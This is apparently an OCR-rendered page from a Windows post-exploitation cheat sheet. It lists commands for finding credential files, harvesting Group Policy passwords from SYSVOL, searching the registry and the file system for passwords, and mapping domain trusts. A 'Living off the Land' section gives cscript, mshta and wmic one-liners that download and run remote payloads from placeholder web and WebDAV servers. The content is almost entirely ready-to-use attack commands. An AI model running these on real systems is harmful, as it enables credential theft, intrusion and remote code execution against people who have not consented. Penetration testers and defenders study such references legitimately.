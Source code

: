 ```
## Potential Credential Files

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

## Find GPP Passwords in SYSVOL

```
findstr /S cpassword $env:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)
```

## Searching the Registry for Passwords

```
reg query HKLM /f password  /t REG_SZ  /s 
```
## Local Domain Recon

Shows the domain:

```
echo %USERDOMAIN%
```

Maps AD trust relationships:

```
nltest /domain_trusts 
```

Prints the domain controller name:

```
echo %logonserver% 
```

## Searching the File System for Files of Interest

```
dir /s *pass* == *cred* == *vnc* == *.config*
```

Search certain file types for a keyword, this can generate a lot of output.

```
findstr /si password *.xml *.ini *.txt
```

# Living off the Land

## Cscript/Wscript

```cscript //E:jscript \\webdavserver\folder\payload.txt```

## MSHTA

```mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload .sct"")"))```
```mshta \\webdavserver\folder\payload.hta```

## WMIC

```wmic os get /format:"https://webserver/payload.xsl"```
```